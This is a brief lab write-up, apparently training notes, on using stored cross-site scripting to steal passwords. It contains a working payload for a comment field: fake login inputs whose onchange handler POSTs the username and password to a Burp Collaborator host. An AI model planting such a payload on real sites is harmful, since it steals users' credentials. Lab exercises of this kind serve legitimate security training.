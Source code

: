 ### Exploiting cross-site scripting to capture passwords : PRACTITIONER

---

Similar to [[Lab 26]], the idea is to send password data to an attacker controlled domain created using Burp Suite Collaborator.

The collaborator domain created:
```
o0p0sx9rpq5u1k9g2yqzt5fwun0eoacz.oastify.com
```

Writing this payload in the comment section of a post:
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://o0p0sx9rpq5u1k9g2yqzt5fwun0eoacz.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

Refreshing the Collaborator page, we see the credentials sent in a POST request.

![](./screenshots/27-1.png)

Using those to login completes the lab.

---
